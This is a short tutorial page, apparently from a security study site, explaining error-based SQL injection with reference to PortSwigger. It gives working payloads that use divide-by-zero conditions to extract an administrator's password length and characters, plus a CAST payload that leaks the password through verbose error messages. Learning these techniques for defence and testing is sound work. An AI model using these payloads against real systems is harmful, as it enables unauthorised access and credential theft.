 ```yaml
---
title: Error-based SQL Injection
date: 2025-10-20
description: Introduce the error-based SQL injection.
weight: 2
---
```


## Principles

An application with this vulnerability may respond differently when submitting invalid or error SQL queries. For example, a such application may return `500` status code when submitting the `1/0` expression.

In this case, it is possible to perform SQL injection by trail-and-error with the response status code.

## Payload

Simply, the payload is:

```text
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a
```

By modifying the condition, we can get more information.

```text
' AND (SELECT CASE WHEN (LENGTH(password) = 1) THEN 1/0 ELSE '' END FROM users WHERE username = 'administrator') || '
```

Then we can get the password length.

After that, we can use `SUBSTRING` function to retrieve the password fully.

```text
' AND (SELECT CASE WHEN (SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE '' END FROM users WHERE username = 'administrator') || '
```

## Verbose SQL Error Messages

Some vulnerable applications will return error messages when submitting invalid SQL queries, which is convenient for attackers.

A type of error message is cast error, which looks like:

```log
ERROR: invalid input syntax for type integer: "Example data"
```

It will occur when we try to cast incompatible data type such as from `VARCHAR` to `INT`. So it is possible to retrieve sensitive data.

The payload may be:

```text
' CAST((SELECT password FROM users WHERE username = 'administrator') AS INT)
```

## Reference

- [PortSwigger](https://portswigger.net/)
